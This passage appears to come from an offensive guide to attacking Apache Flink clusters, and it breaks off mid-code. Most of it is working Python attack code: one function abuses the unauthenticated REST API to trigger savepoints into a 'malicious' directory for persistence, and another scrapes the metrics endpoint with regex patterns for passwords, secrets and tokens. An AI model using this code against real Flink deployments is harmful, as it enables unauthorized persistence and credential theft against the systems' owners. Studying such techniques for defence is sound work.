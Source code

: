 ```python
    response = requests.get(
        f"{base_url}/v1/sessions/{session_id}/operations/{operation_handle}/result/0"
    )
    
    if response.status_code == 200:
        return response.json()
    return None
```

---

## Advanced Attack Vectors

### Checkpoint Manipulation

Flink's checkpointing mechanism can be exploited for persistence:

```python
def manipulate_checkpoints(target_host, job_id):
    """Manipulate Flink checkpoints for persistence"""
    base_url = f"http://{target_host}:8081"
    
    # Get checkpoint information
    response = requests.get(f"{base_url}/jobs/{job_id}/checkpoints")
    checkpoints = response.json()
    
    # Trigger savepoint for backup
    savepoint_data = {
        "target-directory": "/tmp/malicious-savepoint",
        "cancel-job": False
    }
    
    response = requests.post(
        f"{base_url}/jobs/{job_id}/savepoints",
        json=savepoint_data
    )
    
    return response.json() if response.status_code == 202 else None

def list_savepoints(target_host):
    """Enumerate available savepoints"""
    # Implementation depends on filesystem access
    # Through job submission or other vectors
    pass
```

### Metrics System Exploitation

```python
def extract_metrics(target_host, port=9249):
    """Extract sensitive information from metrics"""
    metrics_url = f"http://{target_host}:{port}/metrics"
    
    response = requests.get(metrics_url)
    if response.status_code != 200:
        return None
    
    metrics_data = response.text
    
    # Look for sensitive patterns
    sensitive_patterns = [
        r'password=\S+',
        r'secret=\S+', 
        r'token=\S+',
```